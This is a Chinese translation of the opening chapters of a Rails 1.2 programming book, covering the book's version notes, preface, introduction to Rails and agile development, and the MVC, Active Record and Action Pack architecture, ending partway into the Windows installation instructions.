# Rails 敏捷 Web 开发：实用指南


## 关于 Rails 版本的重要信息

Rails 是一个不断演进的框架。Rails 核心开发者持续进行着更改、添加新功能、修复错误等等。他们定期将最新版本的 Rails 打包发布。这些版本随后以 RubyGems 的形式提供给应用开发者。

本书是为 Rails 1.2 而写的。

在本书付印之际，核心团队已经创建了 Rails 1.2 的代码库。然而，他们尚未将其打包成一个 gem。这给我们带来了一些问题。我们希望本书能反映所有最新、最强大的 Rails 功能，但我们也知道，让人们费尽周折在系统上安装所谓的 Edge 版本 Rails 是很困难的。而且，在 gem 可用之前，1.2 的功能仅存在于 Edge Rails 中。

现在，很有可能当你拿到本书时，Rails 1.2 的 gem 已经发布了。很容易验证这一点。安装 Rails 后（如第 31 页“安装 Rails”章节所述），打开命令提示符并输入 `rails -v`。如果它报告的是 “Rails 1.2” 或更高版本，那就没问题。

相反，如果你看到类似 “Rails 1.1.6” 的内容，你就需要更新才能运行本书中的代码。我们准备了编写本书时使用的 Rails 框架代码快照。在 1.2 发布之前，你可以将其作为临时措施安装到自己的 Rails 应用程序中。

-   正常创建你的应用程序。你会发现它包含一个名为 `vendor` 的目录。
-   将 `http://media.pragprog.com/titles/rails2/code/rails.zip` 下载到你应用程序的 `vendor` 目录中并解压。它应该会创建一个名为 `rails` 的新目录。
-   在你应用程序的顶级目录中，执行以下命令：
    ```
    rake rails:update
    ```

一旦 Rails 1.2 发布，你可以安装它并从你的应用程序中删除 `vendor/rails` 目录树。

我们网站上的 Rails 版本并非官方发布版本，不应在生产应用程序中使用。

▶ **戴夫·托马斯**


> 我每天都从每个方面变得更好。
► 埃米尔·库埃

# 第二版前言

距离我宣布本书第一版出版已经过去了18个月。在书出版之前，很明显Rails将会变得强大，但我不认为当时有人意识到这个框架最终会变得多么重要。

在随后的一年里，Rails日益强大。它被用作众多新颖、令人兴奋的网站的基础。同样重要的是，大型企业（其中许多是家喻户晓的名字）开始使用Rails开发内部和外部应用。Rails也获得了广泛赞誉。Rails的创造者David Heinemeier Hansson在OSCON大会上被评为*年度最佳黑客*。Rails获得了Jolt奖，成为最佳Web开发工具，而本书第一版也获得了Jolt奖，成为最佳技术书籍。

但Rails核心团队并没有坐享其成，安于赞誉。相反，他们埋头苦干，不断添加新功能和设施。Rails 1.0在第一版上市几个月后发布，增加了数据库迁移支持以及更新的AJAX集成等功能。Rails 1.1于2006年春季发布，这是一个重大版本，自上一个版本以来有超过500处改动。其中许多改动意义深远。例如，RJS模板改变了开发者编写支持AJAX的应用程序的方式，而集成测试框架则改变了测试这些应用程序的方式。在扩展和增强Active Record方面投入了大量工作，现在它包括多态关联、连接模型、更好的缓存以及更多功能。

是时候更新本书以反映所有这些优秀特性了。而且，当我开始着手修改时，我意识到其他一些事情也改变了。自第一版发布以来，我们都积累了更多关于*如何*编写Rails应用程序的经验。有些最初看起来很棒的想法在实践中效果并不好，而其他一些最初看似外围的功能后来被证明非常重要。这些新实践意味着对本书的修改比我预期的要深入得多。我不再只是对文本进行表面性的修改，添加几个新API。相反，我发现自己是在重写内容。原书中的一些章节被删除了，新的章节被添加进来。其余的许多章节都已完全重写。因此，很明显我们即将迎来第二版——这基本上是一本新书。

在第一版仍然是世界上最畅销的编程书籍之一时发布第二版似乎有些奇怪。但是Rails已经改变了，我们需要让这本书也随之改变。

祝阅读愉快！

*Dave Thomas*
*2006年10月*

# 第1章

## 引言

Ruby on Rails是一个使开发、部署和维护Web应用程序变得更容易的框架。在其初始版本发布后的几个月里，Rails从一个不为人知的小玩意变成了一个全球性的现象。它赢得了奖项，更重要的是，它已成为实现各种所谓Web 2.0应用程序的首选框架。它不仅在核心黑客中流行：许多跨国公司正在使用Rails创建他们的Web应用程序。

为什么会出现这种情况？似乎有许多原因。

首先，似乎有大量的开发者对他们用来创建Web应用程序的技术感到沮丧。无论他们是使用Java、PHP还是.NET，似乎都无关紧要——一种感觉在蔓延，觉得他们的工作实在太难了。然后，突然间，Rails出现了，而且Rails更容易。

但是，仅仅容易是不够的。我们谈论的是专业开发者编写真实的网站。他们希望感到他们正在开发的应用程序经得起时间的考验——它们是使用现代、专业的技术设计和实现的。因此，这些开发者深入研究Rails，发现它不仅仅是用来快速搭建网站的工具。

例如，*所有* Rails应用程序都使用模型-视图-控制器（MVC）架构实现。Java开发者习惯于使用基于MVC的框架，如Tapestry和Struts。但Rails更进一步：当你在Rails中开发时，每段代码都有其位置，应用程序的所有部分都以标准方式交互。就好像你一开始就已经有了一个准备好的应用程序骨架。

专业程序员会编写测试。Rails再次交出了满意的答卷。所有Rails应用程序都内置了测试支持。当你向代码添加功能时，Rails会自动为该功能创建测试存根。该框架使测试应用程序变得容易，因此Rails应用程序往往都经过了测试。

Rails应用程序是用Ruby编写的，这是一种现代的、面向对象的脚本语言。Ruby简洁而不晦涩难懂——你可以用Ruby代码自然、清晰地表达想法。这使得程序易于编写，并且（同样重要的是）几个月后仍然易于阅读。

Rails将Ruby发挥到极致，以新颖的方式扩展它，使程序员的生活更轻松。这使得我们的程序更短、更可读。它还允许我们通常在外部配置文件中完成的任务在代码库内部执行。这使得更容易看到正在发生什么。以下代码定义了一个项目的模型类。现在不必担心细节。相反，只需想想几行代码中表达了多少信息。

```
class Project < ActiveRecord::Base
  belongs_to            :portfolio
  has_one               :project_manager
  has_many              :milestones
  has_many              :deliverables, :through => :milestones

  validates_presence_of       :name, :description
  validates_acceptance_of     :non_disclosure_agreement
  validates_uniqueness_of     :short_name
end
```

转向Rails的开发者还发现了一种强大的哲学基础。Rails的设计由几个关键概念驱动：DRY和约定优于配置。DRY代表*不要重复自己*——系统中的每一段知识都应该只在一个地方表达。Rails利用Ruby的力量将其实现。你会在Rails应用程序中发现很少的重复；你在通常由MVC架构约定建议的一个地方说出你需要说的话——然后继续前进。对于习惯于其他Web框架的程序员来说，仅仅改变模式就可能涉及他们进行六处或更多代码修改，这简直是一种启示。

*约定优于配置*也至关重要。这意味着Rails在整合应用程序的几乎所有方面都有合理的默认值。遵循这些约定，你可以用比典型Java Web应用程序在XML配置中使用的更少的代码编写Rails应用程序。如果你需要覆盖这些约定，Rails也让这变得容易。

转向Rails的开发者还发现了其他一些东西。Rails是新的，其核心开发团队理解新的Web。Rails并非在追赶新的事实上的Web标准：它在帮助定义它们。Rails使开发者能够轻松地将AJAX和RESTful界面等功能集成到他们的代码中：支持是内置的。（如果你不熟悉AJAX和REST接口，不用担心——我们稍后会解释它们。）

开发者也担心部署。他们发现，使用Rails，你可以用一条命令将应用程序的连续版本部署到任意数量的服务器上（如果发现该版本不太完美，同样可以轻松回滚）。

Rails是从一个真实的商业应用中提取出来的。事实证明，创建框架的最佳方式是在一个特定的应用程序中找到中心主题，然后将它们封装在一个通用的代码基础中。当你在开发你的Rails应用程序时，你已经拥有了一个真正优秀应用程序的一半。

但Rails还有其他东西——一些难以描述的东西。不知何故，它就是感觉合适。当然，在你自己编写一些Rails应用程序之前（这应该在未来45分钟左右……），你必须相信我们的话。这就是本书的全部内容。

### 1.1 Rails是敏捷的

本书的标题是*敏捷Web开发 with Rails*。你可能会惊讶地发现，我们没有明确的章节来讨论如何将敏捷实践X、Y和Z应用到Rails编码中。

原因既简单又微妙。敏捷性是Rails结构的一部分。

让我们以敏捷宣言中表达的价值观作为一组四个偏好来审视。¹ 敏捷开发倾向于以下方面。

- 个体和互动重于流程和工具
- 可工作的软件重于详尽的文档
- 客户合作重于合同谈判
- 响应变化重于遵循计划

Rails完全关乎个体和互动。没有沉重的工具集，没有复杂的配置，没有繁琐的流程。只有小团队的开发者、他们最喜欢的编辑器和Ruby代码块。这导致了透明度：开发者所做的工作会立即反映在客户所看到的内容中。这是一个内在的交互过程。

Rails并不否定文档。Rails使得为整个代码库创建HTML文档变得非常容易。但Rails开发过程并非由文档驱动。你不会找到500页的规范说明，就像在

¹ [http://agilemanifesto.org/](http://agilemanifesto.org/)。Dave Thomas是该文件的17位作者之一。


### 1.2 熟悉环境

本书的前两部分是对 Rails 背后概念的介绍和一个扩展示例——我们构建一个简单的在线商店。如果你想初步体验 Rails 编程，这里就是起点。事实上，大多数人似乎很享受跟随书籍一步步构建应用。如果你不想输入所有代码，可以“偷个懒”，下载源代码（一个压缩的 tar 归档文件或 zip 文件）。²

². http://www.pragmaticprogrammer.com/titles/rails2/code.html 提供了下载链接。

本书第三部分从第 [229] 页开始，详细介绍了 Rails 的所有功能和工具。在这里，你可以了解如何使用各种 Rails 组件，以及如何高效、安全地部署你的 Rails 应用程序。

在此过程中，你会看到我们采用的各种约定。

#### 实时代码

我们展示的大多数代码片段都来自完整、可运行的示例，你可以下载获取。为了帮助你快速定位，如果某个代码清单包含在下载内容中，该片段上方会有一个条状标识（就像这里的一样）。

```
Download work/demo1/app/controllers/say_controller.rb

class SayController < ApplicationController
  def hello
  end
end
```

这里包含了代码在下载文件中的路径。如果你正在阅读本书的 PDF 版本，并且你的 PDF 阅读器支持超链接，你可以点击该条状标识，代码应该会出现在浏览器窗口中。一些浏览器（如 Safari）可能会错误地尝试将某些模板解释为 HTML。如果发生这种情况，请查看页面源代码以查看真正的源代码。

#### Ruby 技巧

虽然你需要了解 Ruby 才能编写 Rails 应用程序，但我们意识到许多阅读本书的人会同时学习 Ruby 和 Rails。附录 A（第 631 页）是对 Ruby 语言的（非常）简要介绍。当我们首次使用特定于 Ruby 的语法时，我们会将其交叉引用到该附录。例如，本段包含了一个 `:name` 的无意义用法，这是一个 Ruby 符号。在页边，你会看到一个提示，说明符号在第 633 页有解释。如果你不了解 Ruby，或者需要快速复习，你可能想在继续深入之前先阅读第 631 页的附录 A。本书中有大量代码……

`:name ← 第 633 页`

#### David 说...

偶尔你会遇到“David 说...”侧边栏。这是 David Heinemeier Hansson 向你透露 Rails 某些特定方面的内幕——基本原理、技巧、建议等等。因为他是 Rails 的发明者，如果你想成为 Rails 专家，这些部分是必读的。

#### Joe 问...

Joe，这位虚构的开发者，有时会跳出来询问我们正文中讨论的一些问题。我们会在讨论过程中解答这些问题。

本书不是 Rails 的参考手册。我们通过示例或叙述性文本展示了大部分模块及其方法，但我们没有包含数百页的 API 列表。这样做有充分的理由——你在安装 Rails 时就能获得这些文档，而且它保证比本书中的材料更新。如果你使用 RubyGems（我们推荐）安装 Rails，只需启动 gem 文档服务器（使用命令 `gem_server`），然后将浏览器指向 http://localhost:8808 即可访问所有 Rails API。（第 39 页的侧边栏描述了安装完整 API 文档的另一种方式。）

#### Rails 版本

本书记录的是 Rails 1.2。

如果你运行的不是 Rails 1.2，那么在尝试本书中的代码之前，你需要进行更新。如果 Rails 1.2 尚未发布（本书在官方 Gem 发布前就已印刷），你可以下载一个过渡版本。请参阅封底内页的说明。

### 1.3 致谢

你可能会认为制作书籍的第二版会很容易。毕竟，你已经有了所有文本。只需在这里调整一些代码，在那里做些措辞修改，就完成了。你可能会这么想……

很难确切说明，但我的印象是，创作《敏捷 Web 开发与 Rails》第二版所花费的精力与第一版差不多。Rails 在不断演进，随之而来的，这本书也在演进。Depot 应用程序的部分内容被重写了三四次，所有叙述性文字都得到了更新。对 REST 的强调和弃用机制的增加都改变了本书的结构，因为曾经的热门内容现在已不再那么突出。

因此，没有 Ruby 和 Rails 社区的鼎力相助，这本书就不会存在。与初版一样，本书也作为测试版发布：早期版本以 PDF 形式发布，人们在线上发表评论。他们确实踊跃评论：超过 1200 条建议和错误报告被提交。其中绝大多数最终被采纳，使本书变得无比实用。感谢你们所有人，既感谢你们支持测试版图书计划，也感谢你们贡献了如此宝贵的反馈。

与第一版一样，Rails 核心团队提供了极大的帮助，回答问题、检查代码片段并修复错误。在此特别*感谢*
Scott Barron (htonl), Jamis Buck (minam), Thomas Fuchs (madrobby),
Jeremy Kemper (bitsweat), Michael Koziarski (nzkoz),
Marcel Molina Jr. (noradio), Rick Olson (technoweenie),
Nicholas Seckar (Ulysses), Sam Stephenson (sam), Tobias Lütke (xal),
and Florian Weber (csshsh)。

我要感谢为本书贡献专题章节的伙伴们：Leon Breedt, Mike Clark, James Duncan Davidson, Justin Gehtland, and Andreas Schwarz。

我一再向自己保证，每写完一本书就将是最后一本，哪怕没有别的理由，只是因为每本书都要让我离开家人好几个月。再次：Juliet, Zachary 和 Henry——感谢你们的一切。

*Dave Thomas*
*2006 年 11 月*
dave@pragprog.com

> “《敏捷 Web 开发与 Rails》……我在我们当地的书店发现了它，看起来棒极了！”
——Dave 的妈妈

---

Rails 项目的核心。相反，你会发现一群用户和开发者共同探索他们的需求以及满足该需求的可能方式。你会发现随着开发者和用户对他们试图解决的问题更加熟悉，解决方案也在不断变化。你会发现一个能在开发周期早期交付可用软件的框架。这个软件可能还不完善，但它让用户得以一窥你最终将交付的产品。

通过这种方式，Rails 鼓励客户协作。当客户看到 Rails 项目能够如此快速地响应变化时，他们开始相信团队能够交付所需的东西，而不仅仅是被要求的东西。“对抗”被“如果……会怎样？”的讨论所取代。

这一切都与能够响应变化的理念紧密相连。Rails 强调 DRY（不要重复自己）原则，近乎执着的方式意味着对 Rails 应用程序的更改所影响的代码量，比在其他框架中进行相同更改要少得多。而且由于 Rails 应用程序是用 Ruby 编写的，概念可以准确而简洁地表达，因此更改往往是局部性的，易于编写。对单元测试和功能测试的深度强调，以及在测试过程中对测试夹具和桩代码的支持，为开发者在进行这些更改时提供了必要的安全保障。拥有了一套良好的测试，更改就不会那么令人紧张。

我们不再试图将 Rails 流程与敏捷原则强行关联，而是决定让框架自己说话。当你阅读教程章节时，试着想象自己以这种方式开发 Web 应用程序：与客户并肩工作，共同确定优先级和问题解决方案。然后，当你阅读后面更深入的参考资料时，看看 Rails 的底层结构如何使你能够更快、更简洁地满足客户需求。

最后一点关于敏捷和 Rails：尽管提及这个可能不太专业，但想想编码会有多有趣。


# 第一部分

## 快速入门

# 第2章

## Rails 应用的架构

Rails 的一个有趣之处在于，它对如何构建 Web 应用施加了相当严格的限制。令人惊讶的是，这些限制反而让应用的创建变得更容易了——容易得多。我们来看看这是为什么。

### 2.1 模型、视图与控制器

早在 1979 年，Trygve Reenskaug 就提出了一种新的交互式应用架构。在他的设计中，应用被拆分为三种类型的组件：模型、视图和控制器。

*模型*负责维护应用的状态。有时这种状态是短暂的，仅持续与用户的一两次交互。有时状态是永久的，会存储在应用外部，通常是在数据库中。

模型不仅仅是数据；它还强制执行适用于这些数据的所有业务规则。例如，如果订单金额低于 20 美元不应该享受折扣，模型就会强制执行这个约束。这是有道理的；通过将这些业务规则的实现放在模型中，我们确保应用中的其他任何部分都无法使我们的数据无效。模型既充当守门人，又充当数据存储。

*视图*负责生成用户界面，通常基于模型中的数据。例如，一个在线商店会有一个产品列表需要在目录屏幕上显示。这个列表将通过模型来访问，但将是视图从模型中获取该列表，并为其最终用户进行格式化。虽然视图可能会向用户提供多种输入数据的方式，但视图本身从不处理传入的数据。一旦数据被显示出来，视图的工作就完成了。很可能有多个视图访问相同的模型数据，通常是为了不同的目的。在在线商店中，会有一个视图在目录页面上显示产品信息，还有一组视图供管理员用来添加和编辑产品。

*控制器*则协调整个应用。控制器接收来自外部世界的事件（通常是用户输入），与模型进行交互，并向用户显示适当的视图。

这三者——模型、视图和控制器——共同构成了一个称为 MVC 的架构。图 2.1 以抽象术语展示了 MVC。



MVC 最初是为传统的 GUI 应用设计的，开发者发现关注点分离导致耦合度大大降低，这反过来又使代码更易于编写和维护。每个概念或操作都在一个众所周知的地方表达。使用 MVC 就像建造一座已经搭好钢架的摩天大楼——有了现成的结构，挂载其余部分就容易多了。

在软件世界里，当我们急于奔向未来时，常常会忽略过去的优秀想法。当开发者最初开始制作 Web 应用时，他们退回到编写单体程序，将表示、数据库访问、业务逻辑和事件处理混合在一个巨大的代码块中。但过去的想法慢慢渗透回来，人们开始尝试为 Web 应用设计架构，这些架构反映了 MVC 二十年前的想法。其结果就是诸如 WebObjects、 Struts 和 JavaServer Faces 等框架。所有这些框架都基于（在不同程度上忠实于）MVC 的思想。

Ruby on Rails 也是一个 MVC 框架。Rails 为你的应用强制设定了一种结构——你将模型、视图和控制器作为独立的功能块来开发，而 Rails 在你的程序运行时将它们全部编织在一起。Rails 的乐趣之一在于，这个编织过程基于使用智能默认值，因此你通常不需要编写任何外部配置元数据就能让一切正常工作。这是 Rails 重视约定优于配置理念的一个例子。

在 Rails 应用中，传入的请求首先被发送到路由器，路由器确定请求应被发送到应用中的哪个位置以及如何解析请求本身。最终，这个阶段会在控制器代码中的某个地方识别出一个特定的方法（在 Rails 术语中称为*操作*）。该操作可能会查看请求本身的数据，可能会与模型交互，也可能导致调用其他操作。最终，操作会为视图准备信息，视图将渲染某些内容给用户。


图 2.2 展示了 Rails 如何处理传入请求。在这个例子中，应用之前已经显示了一个产品目录页面，用户刚刚点击了某个产品旁边的 `Add To Cart` 按钮。这个按钮链接到 `http://my.url/store/add_to_cart/123`，其中 `add_to_cart` 是我们应用中的一个操作，`123` 是我们对所选产品的内部 ID。¹

> 1. 我们在本书后面会介绍 Rails URL 的格式。不过，值得在此指出的是，让 URL 执行诸如 *add to cart*（添加到购物车）之类的操作可能是危险的。更多详情请参见第 463 页的第 21.6 节 *The Problem with GET Requests*（GET 请求的问题）。

路由组件接收到传入的请求并立即对其进行解析。在这个简单的例子中，它取路径的第一部分 `store` 作为控制器的名称，第二部分 `add_to_cart` 作为操作的名称。路径的最后一部分 `123` 根据惯例被提取为一个名为 `id` 的内部参数。经过所有这些分析后，路由器知道它必须在控制器类 `StoreController`（我们将在第 241 页讨论命名约定）中调用 `add_to_cart` 方法。

`add_to_cart` 方法处理用户请求。在本例中，它找到了当前用户的购物车（这是一个由模型管理的对象）。它还要求模型查找产品 123 的信息。然后，它告诉购物车将该产品添加到自身中。（看看模型是如何被用来跟踪所有业务数据的；控制器告诉它*要做什么*，而模型知道*如何去做*。）

现在购物车中包含了新产品，我们可以将其展示给用户。控制器安排好一切，使视图能够访问模型中的购物车对象，并调用视图代码。在 Rails 中，这种调用通常是隐式的；再次，约定帮助将特定的视图与给定的操作关联起来。

这就是一个 MVC Web 应用的全部内容。通过遵循一组约定并适当地划分你的功能，你会发现你的代码变得更容易处理，你的应用也变得更容易扩展和维护。这似乎是一笔不错的交易。

如果 MVC 只是关于以特定方式划分你的代码，你可能会想为什么需要像 Ruby on Rails 这样的框架。答案很直接：Rails 为你处理所有的底层繁重工作——所有那些你自己处理需要花费很长时间的杂乱细节——让你专注于应用的核心功能。我们来看看是如何做到的……

### 2.2 Active Record：Rails 模型支持

通常，我们希望我们的 Web 应用将其信息存储在关系型数据库中。订单录入系统会将订单、订单项和客户详细信息存储在数据库表中。即使是通常使用非结构化文本的应用（如博客和新闻网站），也经常使用数据库作为其后端数据存储。

尽管从你用来访问它们的 SQL² 可能并不立即明显，但关系型数据库实际上是围绕数学集合论设计的。尽管从概念的角度来看这是好事，但它使得将关系型数据库与面向对象编程结合起来变得困难。

> 2. SQL，有些人称之为 *Structured Query Language*（结构化查询语言），是用于查询和更新关系型数据库的语言。

语言。对象关乎数据与操作，而数据库则关乎值的集合。在关系模型中易于表达的操作，有时在面向对象系统中却难以编码。反之亦然。

随着时间推移，人们已找到了调和企业数据的关系视图与面向对象视图的方法。让我们来看两种不同的方法：一种围绕数据库组织你的程序；另一种围绕你的程序组织数据库。

#### 以数据库为中心的编程

最早使用关系数据库编程的人采用的是诸如 C 和 COBOL 之类的面向过程的语言。这些人通常将 SQL 直接嵌入代码中，或作为字符串，或使用预处理器将源代码中的 SQL 转换为对数据库引擎的低级调用。

这种集成意味着将数据库逻辑与整体应用程序逻辑交织在一起变得很自然。想要遍历订单并更新每个订单销售税的开发者可能会写出极其丑陋的代码，例如

```
EXEC SQL BEGIN DECLARE SECTION;
  int    id;
  float  amount;
EXEC SQL END DECLARE SECTION;

EXEC SQL DECLARE c1 AS CURSOR FOR select id, amount from orders;

while (1) {
  float tax;
  EXEC SQL WHENEVER NOT FOUND DO break;
  EXEC SQL FETCH c1 INTO :id, :amount;
  tax = calc_sales_tax(amount)
  EXEC SQL UPDATE orders set tax = :tax where id = :id;
}
EXEC SQL CLOSE c1;
EXEC SQL COMMIT WORK;
```

很吓人，对吧？别担心。我们不会使用任何这种代码，尽管这种编程风格在 Perl 和 PHP 等脚本语言中很常见。Ruby 中也可用。例如，我们可以使用 Ruby 的 DBI 库生成看起来类似的代码。（此示例与前一个示例一样，没有错误检查。）

方法定义

```
def update_sales_tax
  update = @db.prepare("update orders set tax=? where id=?")
  @db.select_all("select id, amount from orders") do |id, amount|
    tax = calc_sales_tax(amount)
    update.execute(tax, id)
  end
end
```

这种方法简洁明了，确实被广泛使用。对于小型应用程序来说，这似乎是一个理想的解决方案。然而，存在一个问题。像这样混合业务逻辑和数据库访问，可能会使应用程序在未来难以维护和扩展。而且，你仍然需要了解 SQL 才能开始你的应用程序开发。

假设，例如，我们开明的州政府通过了一项新法律，要求我们记录销售税计算的时间和日期。这没问题，我们想。我们只需在循环中获取当前时间，在 SQL update 语句中添加一列，并将时间传递给 execute 调用。

但是，如果我们在应用程序的许多不同地方设置销售税列，会发生什么？现在我们需要遍历并找到所有这些地方，逐一更新。我们有了重复的代码，并且（如果我们遗漏了设置该列的地方）我们有了一个错误源。

在常规编程中，面向对象编程已经教会我们，封装可以解决这类问题。我们会将所有与订单相关的内容包装在一个类中；当法规发生变化时，我们只需要在一个地方进行更新。

人们已经将这些思想扩展到了数据库编程。其基本前提非常简单。我们将数据库访问封装在一个类层背后。应用程序的其余部分使用这些类及其对象——它从不直接与数据库交互。这样，我们将所有特定于模式的内容封装到了一个单独的层中，并将应用程序代码与数据库访问的低级细节解耦。就我们的销售税变更而言，我们只需更改包装 `orders` 表的类，以便在销售税发生更改时更新时间戳。

在实践中，这个概念比看起来更难实现。现实生活中的数据库表是相互关联的（例如，一个订单可能包含多个订单项），我们希望在我们的对象中反映这一点：订单对象应该包含一个订单项对象的集合。但我们随后开始遇到对象导航、性能和数据一致性问题。面对这些复杂性，业界做了它惯常做的事情：它发明了一个三字母缩写词：ORM，即对象关系映射。Rails 使用 ORM。

#### 对象关系映射

ORM 库将数据库表映射到类。如果数据库有一个名为 `orders` 的表，我们的程序将有一个名为 `Order` 的类。该表中的行对应于该类的对象——一个特定的订单表示为一个 `Order` 类的对象。在该对象内，使用属性来获取和设置各个列。我们的 `Order` 对象有获取和设置金额、销售税等的方法。

此外，包装我们数据库表的 Rails 类提供了一组执行表级操作的类级方法。例如，我们可能需要找到具有特定 id 的订单。这被实现为一个类方法，返回相应的 `Order` 对象。在 Ruby 代码中，这可能看起来像

```
order = Order.find(1)
puts "Order #{order.customer_id}, amount=#{order.amount}"
```

有时这些类级方法返回对象的集合。

```
Order.find(:all, :conditions => "name='dave'").each do |order|
  puts order.amount
end
```

最后，对应于表中单个行的对象具有在该行上操作的方法。可能最广泛使用的是 `save`，即将行保存到数据库的操作。

```
Order.find(:all, :conditions => "name='dave'").each do |order|
  order.discount = 0.5
  order.save
end
```

因此，ORM 层将表映射到类，行映射到对象，列映射到这些对象的属性。类方法用于执行表级操作，实例方法执行单个行上的操作。

在典型的 ORM 库中，你需要提供配置数据来指定数据库中的实体与程序中的实体之间的映射。使用这些 ORM 工具的程序员通常发现自己正在创建和维护大量的 XML 配置文件。

#### 活动记录

活动记录是 Rails 自带的 ORM 层。它严格遵循标准 ORM 模型：表映射到类，行映射到对象，列映射到对象属性。它与其他大多数 ORM 库的不同之处在于其配置方式。通过依赖约定并从合理的默认值开始，活动记录最大限度地减少了开发人员需要执行的配置量。为了说明这一点，这里有一个使用活动记录包装我们的 `orders` 表的程序。

```
require 'active_record'

class Order < ActiveRecord::Base
end

order = Order.find(1)
order.discount = 0.5
order.save
```

此代码使用新的 `Order` 类来获取 id 为 1 的订单并修改折扣。（我们暂时省略了创建数据库连接的代码。）活动记录让我们摆脱了处理底层数据库的麻烦，使我们能够自由地处理业务逻辑。

但活动记录的作用不止于此。正如我们将在第 62 页开始的购物车应用程序开发中看到的那样，活动记录与 Rails 框架的其余部分无缝集成。如果一个 Web 表单将与业务对象相关的应用程序数据发送过来，活动记录可以将其提取到我们的模型中。活动记录支持对模型数据进行复杂的验证，如果表单数据验证失败，Rails 视图只需一行代码就能提取和格式化错误信息。

活动记录是 Rails MVC 架构坚实的模型基础。这就是为什么我们用三章（从第 284 页开始）来讲解它的原因。

### 2.3 动作包：视图和控制器

仔细想想，MVC 的视图和控制器部分关系非常密切。控制器向视图提供数据，控制器接收来自视图生成的页面的事件。由于这些交互，Rails 中对视图和控制器的支持被打包到一个单一的组件中，即 *动作包*。

不要误以为你的应用程序的视图代码和控制器代码会因为动作包是一个单一组件而混杂在一起。恰恰相反：Rails 为你提供了编写 Web 应用程序所需的清晰划分，控制逻辑和表示逻辑的代码分离。

#### 视图支持

在 Rails 中，视图负责创建要在浏览器中显示的页面的全部或部分内容。³ 最简单的视图是一块显示一些固定文本的 HTML 代码块。更典型的是，你需要包含由控制器中的 action 方法创建的动态内容。

在 Rails 中，动态内容由模板生成，模板有三种类型。最常见的模板方案称为 *rhtml*，它使用一个名为 ERb（或嵌入式 Ruby）的 Ruby 工具，将 Ruby 代码片段嵌入到视图的 HTML 中。⁴ 这种方法非常灵活，但纯粹主义者有时会抱怨它违反了 MVC 的精神。通过将代码嵌入视图中，我们有可能添加了本应放在模型或控制器中的逻辑。这种抱怨在很大程度上...

---
³. 或一个 XML 响应，或一封电子邮件，或...。关键点在于，视图生成返回给用户的响应。
⁴. 对于使用 PHP 或 Java JSP 技术的 Web 开发者来说，这种方法可能很熟悉。


这种观点毫无根据：即使在最初的 MVC 架构中，视图也包含活动代码。保持关注点的清晰分离是开发者的职责之一。（我们在第**22.1节 RHTML模板**，第**469页**讨论HTML模板。）

第二种模板方案称为**rxml**，它允许你使用Ruby代码构建XML文档——生成的XML结构将自动遵循代码的结构。我们从第**468页**开始讨论rxml模板。

Rails还提供了**rjs**视图。这允许你在服务器上创建JavaScript片段，然后在浏览器中执行。这对于创建动态Ajax界面非常有用。我们从第**559页**开始讨论这些。

#### 还有控制器！

Rails控制器是你的应用程序的逻辑中心。它协调用户、视图和模型之间的交互。然而，Rails在幕后处理了大部分这种交互；你编写的代码专注于应用程序级别的功能。这使得Rails控制器代码非常易于开发和维护。

控制器也是许多重要辅助服务的载体。

- 它负责将外部请求路由到内部操作。它能极好地处理对用户友好的URL。
- 它管理缓存，这可以给应用程序带来数量级的性能提升。
- 它管理辅助模块，这些模块扩展了视图模板的能力，而不会使其代码变得臃肿。
- 它管理会话，给用户留下与我们的应用程序持续交互的印象。

Rails内容很多。与其逐个组件地去攻克它，不如让我们卷起袖子，编写几个可以运行的应用程序。在下一章，我们将安装Rails。之后，我们将编写一些简单的东西，只是为了确保我们正确安装了所有内容。在**第5章 Depot应用程序**，第**62页**，我们将开始编写一些更有实质内容的东西——一个简单的在线商店应用程序。

# 第3章
安装Rails

通常，这类书籍会缓慢推进，从简单的内容开始，逐步深入到高级材料。这种想法是为了在人们浏览书店时让他们觉得这很容易，然后在他们把书带回家后才让他们意识到购买这本书的巨大挑战。

我们不是那种书。因为Rails实在太容易了，结果这很可能是本书中最难的一章。没错——就是那个“如何让你的计算机运行Rails环境”的章节。

别让这把你吓跑了；其实真没那么难。只是你要在你的机器上安装一个专业级的Web层，而且涉及到多个组件。而且，由于操作系统在支持Web服务器等组件的方式上有所不同，你会发现本章对Windows、Mac和Unix用户会有不同的部分。（不过别担心。一旦我们过了这一章，所有的操作系统依赖性就都过去了。）

Mike Clark和Dave Thomas举办了一系列Rails工作室^1，让那些从未使用过Rails或Ruby的人学习编写应用程序。本章的建议基于我们让这些人尽快、无痛地启动运行的经验。

另外，你会注意到本节依赖在线资源。这是因为世界变化太快，任何印在书中的底层指令都可能很快过时。

## 3.1 你的购物清单

要在你的系统上运行Rails，你需要以下东西。

- 一个Ruby解释器。Rails是用Ruby编写的，你也将用Ruby编写应用程序。Rails团队现在推荐Ruby版本1.8.4。（截至2006年10月，Ruby的最新版本是1.8.5。它可以很好地运行Rails，但使用断点调试器时可能会遇到一些问题。）
- Ruby on Rails。本书是用Rails版本1.2编写的。
- 一些库。
- 一个数据库。我们在本书中使用MySQL 5.0.22。

对于开发机来说，这基本上就是我们需要的全部了（除了编辑器，我们将单独讨论编辑器）。然而，如果你打算部署你的应用程序，你还需要安装一个生产用的Web服务器（至少）以及一些支持代码，让Rails高效运行。我们有一整章专门讨论这个，从第614页开始，所以这里就不多说了。

那么，如何安装所有这些呢？这取决于你的操作系统……

## 3.2 在Windows上安装

如果你使用Windows进行开发，那么你很幸运，因为Curt Hibbs已经为你准备好了一个包含入门Rails所需一切的捆绑包。InstantRails是一个单独的下载包，包含Ruby、Rails、MySQL（写作时为版本4）以及让它们协同工作所需的所有工具。它甚至包含一个Apache Web服务器和让你部署高性能Web应用程序的支持代码。

1. 创建一个文件夹来存放InstantRails安装。文件夹的路径不能包含任何空格（所以`C:\Program Files`是个糟糕的选择）。
2. 访问InstantRails网站²，并按照链接下载最新的.zip文件。（大约50MB，如果你的连接速度慢，开始下载前先泡壶茶。）把它放入你在步骤1中创建的目录。
